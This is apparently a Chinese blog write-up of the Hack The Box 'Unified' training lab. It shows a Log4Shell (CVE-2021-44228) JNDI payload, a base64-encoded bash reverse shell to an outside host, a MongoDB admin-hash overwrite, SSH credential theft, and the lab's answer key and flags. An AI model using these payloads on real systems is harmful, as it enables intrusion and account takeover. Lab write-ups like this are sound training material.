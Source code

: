 ```yaml
---
title: Hack the box Unified题解
tags:
  - HTB
  - 渗透测试
permalink: /archives/35769/
createTime: 2023-04-03 11:32:28
---
```


> 打这个靶机的时候也是断断续续的，所以里面的目标IP前后对应不上，但是方法都是一样的。

 # 扫端口

```shell
nmap -sC -sV 10.129.96.149
```

![image-20230404171520202](https://img.crzliang.cn/img/image-20230404171520202.png)

访问8080端口重定向到了8443

看到是`unifi6.4.54`版本的，结合官方给的WP知道这个版本有一个CVE，可以以此为出发点进行攻击

# CVE-2021-44228的利用

## 验证漏洞存在

先验证是不是存在这个漏洞

1. 抓包，因为是`https`的站，所以要对`burpsuite`进行一些设置[Burp Suite抓HTTPS数据包教程](https://blog.csdn.net/zyw_anquan/article/details/47904495)

![image-20230404175013011](https://img.crzliang.cn/img/image-20230404175013011.png)

然后根据官方的WP，需要把remember的值改成`${jndi:ldap://Tun 0的IP/o=tomcat}`

验证存在

![image-20230404214952373](https://img.crzliang.cn/img/image-20230404214952373.png)

## 实施攻击

### 漏洞利用环境搭建

> 更新&&安装环境
>
> sudo apt update
>
> sudo apt install openjdk-11-jdk -y
>
> sudo apt-get install maven
>
> 安装工具
>
> git clone https://github.com/veracode-research/rogue-jndi
>
> cd rogue-jndi
>
> mvn package

编译成功

![image-20230404222733175](https://img.crzliang.cn/img/image-20230404222733175.png)

### 开始攻击

首先对`payload`进行`base64`编码，以防止出现其他的编码问题

```shell
echo "/bin/bash -c '/bin/bash -i >&/dev/tcp/10.10.14.149/4444 0>&1'" | base64
```

![image-20230404223238197](https://img.crzliang.cn/img/image-20230404223238197.png)

运行RogueJndi-1.1.jar

```shell
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,L2Jpbi9iYXNoIC1jICcvYmluL2Jhc2ggLWkgPiYvZGV2L3RjcC8xMC4xMC4xNC4xNDkvNDQ0NCAwPiYxJwo=}|{base64,-d}|{bash,-i}" --hostname "10.10.14.149"
```

并监听4444端口

```shell
nc -lnvp 4444
```

> 第一步运行监听命令
>
> 第二步运行`RogueJndi-1.1.jar`
>
> 第三步在`remember`的值改为`${jndi:ldap://Tun 0的IP:1389/o=tomcat}`
>
> 第四步点击`Send`
>
> 然后出现红色和蓝色的长线就代表攻击成功了
>
> 但是黄色的长线第一次运行时是不会出现的，要运行`script /dev/null -c bash`切换成交互式shell才会出现

![image-20230404223823350](https://img.crzliang.cn/img/image-20230404223823350.png)

## 信息收集

### MongoDB数据库

任务八问`MongoDB`跑在哪个端口上，用命令查看，发现是在27117端口上

```shell
ps aux | grep mongo
```

![image-20230404224950182](https://img.crzliang.cn/img/image-20230404224950182.png)

任务九又问`MongoDB`的默认数据库名称是什么官方的WP里面说了是`ace`当然也能百度到

然后就是使用`db.admin.find()`方法检索`ace`数据库中的所有文档，并将结果传递给`forEach`方法

```shell
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```

![image-20230404225908450](https://img.crzliang.cn/img/image-20230404225908450.png)

可以看到里面第一个就是`administrator`用户，密码`hash`值保存在`x_shadow`变量中，但是这个值并不能被任何的密码工具破解。那就换个思路，不能破解，那就替换，WP中提到可以用`mkpasswd`命令去实现加密一个新的密码

> 原密码前面有$6$，特征符，代表使用的sha-512进行的加密，所以我们也要同样的方式进行加密新密码
>
> > SHA-512的科普：
> >
> > SHA-512 算法的安全性基于其数学原理和算法复杂度。由于它的输出长度很长，因此很难通过暴力攻击等方法破解。它是目前最常用的哈希算法之一，也被广泛应用于数字签名、密码学加密和数据完整性验证等领域。

![image-20230404230727942](https://img.crzliang.cn/img/image-20230404230727942.png)

### 更新密码

```shell
mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$W8lv9ywfFDfMVM8a$CPn2fYW3L2rlWhKQy8kuef8Vs/SHgwfwhr18ZzJ/K3OMWZeNmMrpoAaranjl/q3.7K3VYZHBPdp2EVnQB3Jq00"}})'
```

### 登录后台

用更新了的密码成功登录后台

![image-20230404231823711](https://img.crzliang.cn/img/image-20230404231823711.png)

### 找ssh密码

> 点击那个齿轮图标，然后点击Site，滑到页面最底部看到ssh的密码，点那个眼睛可以看到密码

![image-20230404232536565](https://img.crzliang.cn/img/image-20230404232536565.png)

### ssh连接

> 到这就完事了，`user.txt`在`/home/michael`目录下

![image-20230404232956730](https://img.crzliang.cn/img/image-20230404232956730.png)

# 答案

>1. 22,6789,8080,8443
>2. UniFi Network
>3. 6.4.54
>4. CVE-2021-44228
>5. ldap
>6. tcpdump
>7. 389
>8. 27117
>9. ace
>10. db.admin.find()
>11. db.admin.update()
>12. NotACrackablePassword4U2022
>13. 6ced1a6a89e666c0620cdb10262ba127
>14. e50bc93c75b634e4b272d2f771c33681

# 参考博客

- [HackTheBox - Unified](https://blog.csdn.net/qq_45862635/article/details/125350250)

- [hack the box靶场unified靶机](https://blog.csdn.net/zr1213159840/article/details/123697698)

